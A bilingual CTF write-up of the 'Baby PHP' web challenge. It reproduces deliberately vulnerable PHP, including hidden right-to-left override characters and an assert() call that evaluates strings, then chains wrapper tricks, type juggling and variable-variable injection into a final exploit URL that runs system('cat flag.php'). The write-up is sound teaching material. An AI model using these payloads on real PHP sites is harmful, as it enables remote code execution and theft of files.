

# Baby PHP
---
**Points:** 153 | **Solves:** 147/1035 | **Category:** Web

PHP is a popular general-purpose scripting language that is especially suited to web development.

Fast, flexible and pragmatic, PHP powers everything from your blog to the most popular websites in the world.

[Can you untangle this mess?!](https://arcade.fluxfingers.net:1819/)
---

[Bahasa Indonesia](#bahasa-indonesia)

## English
Given a PHP code as follows:

```php
 <?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;   
```

There are several traps in this problem. First, note that `preg_match('/^\d+＄/', $k2)` doesn't use `$` dollar sign but `＄` or unicode character for [full width dollar sign](http://graphemica.com/%EF%BC%84). Second, if the source code is written using `highlight_file(__FILE__);` (just like in the problem), there is a line like this:



The real code is `$ b = "2";$a=" b";//;1=b` because it uses the unicode U+202E or [right-to-left override](https://www.charbase.com/202e-unicode-right-to-left-override) in the variable name (`$ b`) and assignment (`$a=" b"`) so the string is reversed when displayed.

Our goal is to reach `echo "Good Job ;)";`. There is `// echo $flag;` which indicates that there is a variable named `$flag` but it's not written to the output because it's a comment. We can use `assert("$bb == $cc");` to get arbitrary code execution if we can control `$bb` or `$cc` because `assert` [evaluating string like `eval`](http://php.net/manual/en/function.assert.php).

The `$msg`, `$k1`, dan `$k2` variables can be controlled with GET requests. If the requirement satisfied, we can also replace `$cc` in the middle through `@$cc = $_GET['cc'];` and also create variables with the names and values of our own via `$$lel = $hack;` because the value of `$lel` and `$hack` is taken from `foreach ($_GET as $lel => $hack)`.

To achieve remote code execution, here are some things that must be utilized and done until it reaches the `assert` with the variables we control.

### PHP Wrapper

```php
@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}
```

Besides the path to a file, the `file_get_contents` function can also receive [protocol and *wrapper*](http://php.net/manual/en/wrappers.php). Unfortunately, it looks like the internet is turned off so `http: //` to the web that we control that contains `Hello Challenge!` cannot work. Alternatively, we can use [`data: //`](http://php.net/manual/en/wrappers.data.php). We can use `data://text/plain,Hello%20Challenge!` as the value of `$msg`.

### Strict Comparison

```php
if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}
```

Note that `$k1` is taken from `$_GET['key1'] `so that the variable data type is a string. Comparison with the `$cc` variable uses strict comparison (the value and data type must be the same). The `$cc` variable contains 1337 (number) so we can just set `$k1` to 1337. The comparison result of `$k1 === $cc` will be `false`.

### Loose Comparison

```php
if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

```

The value of `$k2` can't be numeric but must be the same as `$cc` which contains 1337. The comparison uses loose comparison so that we can set `$k2` with a string beginning with 1337. The string length must match the value `$bb`, which is 42. The regex match used must also be met (remember that the dollar sign is a trap, after 1337 we must enter the unicode character `＄`). We can use `1337%EF%BC%8400000000000000000000000000000000000` as the value of `$k2` so that the value of `$cc` can be controlled.

### NULL Comparison

```php
if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}
```

The value of `$bb` is 42 and we can control the `$cc` variable. It seems difficult to fulfill `substr ($cc, $bb) === sha1($cc)`. The trick is to use array. The value of `substr ([], 42)` and `sha1 ([])` is NULL so that the comparison is fulfilled. We can set the `$cc` value to an array on GET request so that we can create variables with our own names and values.

### Variable Variable

```php
$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}
```

In PHP, [*variable variable*](http://php.net/manual/en/language.variables.variable.php) can be used to retrieve values ​​with dynamic names. For example, in the example above, the value of `$$a` is `2`. Remember that `$ b` is not using a space but a U+202E unicode character. The value of `$k1` can be controlled so we only needs to set `$k1` with `2`.

### Remote Code Execution

```php
assert("$bb == $cc");
```

The value of `$bb` and `$cc` can be controlled but `$cc` must be an array so that when converted to a string it will become `Array`. The syntax used must be correct while `== Array` will generate syntax error when the string is evaluated by the `assert`. The trick is to use `;` and comment `//` in `$bb`. We can run any PHP code. To do remote code execution, we can use functions such as `system`. For example, to read the `flag.php` file, we can set `$bb` with `system('cat flag.php'); // `.

### Final Exploit

Here is an example of exploit request to get the flag.

```
view-source:https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=1337%EF%BC%8400000000000000000000000000000000000&cc[]=a&k1=2&bb=system(%27cat%20flag.php%27);%20//%20%22
```


## Bahasa Indonesia
Diberikan sebuah kode PHP seperti berikut:

```php
 <?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;   
```

Ada beberapa jebakan dalam soal ini. Pertama, perhatikan bahwa `preg_match('/^\d+＄/', $k2)` bukan menggunakan tanda dolar `$` melainkan `＄` atau karakter unicode untuk [full width dollar sign](http://graphemica.com/%EF%BC%84). Kedua, apabila kode sumber dituliskan menggunakan `highlight_file(__FILE__);` terlihat baris seperti ini:


Kode yang asli adalah `$ b = "2";$a=" b";//;1=b` menggunakan karakter unicode U+202E atau [right-to-left override](https://www.charbase.com/202e-unicode-right-to-left-override) pada nama variabel `$ b` dan juga pengisian `$a=" b"` sehingga ketika ditampilkan stringnya terbalik.

Tujuan kita adalah mencapai `echo "Good Job ;)";`. Terlihat bahwa terdapat `// echo $flag;` yang menandakan bahwa ada variabel bernama `$flag` tetapi tidak dituliskan ke output karena kode tersebut adalah komentar. Kita dapat memanfaatkan `assert("$bb == $cc");` untuk melakukan kontrol eksekusi kode apabila variabel `$bb` atau `$cc` dapat kita kontrol karena `assert` [melakukan evaluasi string seperti `eval`](http://php.net/manual/en/function.assert.php).

Variabel `$msg`, `$k1`, dan `$k2` dapat kita kontrol melalui GET *requests*. Apabila persyaratan memenuhi, kita juga dapat mengganti variabel `$cc` di tengah-tengah melalui `@$cc = $_GET['cc'];` dan juga membuat variabel dengan nama serta isi dari kita sendiri melalui `$$lel = $hack;` karena nilai dari `$lel` dan `$hack` diambil dari `foreach ($_GET as $lel => $hack)`.

Untuk mencapai *remote code execution*, berikut adalah beberapa hal yang harus dimanfaatkan dan dilakukan hingga mencapai `assert` dengan variabel yang kita kontrol.

### PHP Wrapper

```php
@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}
```

Selain *path* menuju berkas, fungsi `file_get_contents` juga dapat menerima [protokol dan *wrapper*](http://php.net/manual/en/wrappers.php). Sayangnya, sepertinya internet dimatikan sehingga `http://` menuju web yang kita kontrol yang berisi `Hello Challenge!` tidak dapat bekerja. Alternatifnya, kita dapat menggunakan [`data://`](http://php.net/manual/en/wrappers.data.php). Kita dapat menggunakan `data://text/plain,Hello%20Challenge!` sebagai nilai dari `$msg`.

### Strict Comparison

```php
if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}
```

Perhatikan bahwa `$k1` diambil dari `$_GET['key1']` sehingga tipe data variabelnya adalah string. Perbandingan dengan variabel `$cc` menggunakan `strict comparison` (harus sama nilai dan tipe datanya). Variabel `$cc` berisi bilangan 1337 sehingga nilai dari $k1 bisa kita isi 1337. Perbandingan `$k1 === $cc` akan bernilai `false`.

### Loose Comparison

```php
if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

```

Variabel `$k2` tidak boleh berupa numerik tetapi harus sama dengan `$cc` yang berisi 1337. Perbandingan menggunakan `loose comparison` sehingga kita dapat mengisi `$k2` dengan string yang diawali 1337. Panjang string harus sesuai dengan nilai `$bb`, yaitu 42. Regex yang digunakan juga harus dipenuhi (ingat bahwa tanda dolar tersebut adalah jebakan, setelah 1337 kita harus memasukkan karakter unicode `＄`). Kita dapat menggunakan `1337%EF%BC%8400000000000000000000000000000000000` sebagai nilai `$k2` agar nilai `$cc` dapat kita kontrol.

### NULL Comparison

```php
if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}
```

Nilai dari `$bb` adalah 42 dan variabel `$cc` dapat kita kontrol. Sepertinya sulit untuk memenuhi `substr($cc, $bb) === sha1($cc)` dengan cara biasa. Triknya adalah menggunakan array. Nilai dari `substr([], 42)` dan `sha1([])` adalah NULL sehingga perbandingan terpenuhi. Kita dapat mengatur nilai `$cc` menjadi array pada GET *request* sehingga kita dapat membuat variabel yang nama dan isinya dapat kita atur.

### Variable Variable

```php
$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}
```

Pada PHP, [*variable variable*](http://php.net/manual/en/language.variables.variable.php) dapat digunakan untuk pengambilan nilai dengan nama dinamis. Misal, pada contoh di atas, nilai dari `$$a` adalah `2`. Ingat bahwa sebelum `b` bukanlah spasi melainkan karakter unicode U+202E. Nilai dari `$k1` dapat kita kontrol melalui langkah sebelumnya sehingga cukup isi `$k1` dengan `2`.

### Remote Code Execution

```php
assert("$bb == $cc");
```

Variabel `$bb` dan `$cc` dapat kita kontrol tetapi `$cc` harus berupa array sehingga ketika dikonversi menjadi string akan bernilai `Array`. Sintaks yang digunakan harus benar sementara `== Array` akan menghasilkan `syntax error` ketika evaluasi. Triknya adalah menggunakan `;` dan komentar `//` pada `$bb`. Kita dapat menjalankan kode PHP apa saja. Untuk melakukan `remote code execution`, kita dapat menggunakan fungsi seperti `system`. Contoh, untuk membaca berkas `flag.php`, nilai `$bb` dapat kita isi dengan `system('cat flag.php'); // `.

### Final Exploit

Berikut adalah salah satu *request* yang dapat dilakukan untuk mendapatkan flag.

```
view-source:https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=1337%EF%BC%8400000000000000000000000000000000000&cc[]=a&k1=2&bb=system(%27cat%20flag.php%27);%20//%20%22
```
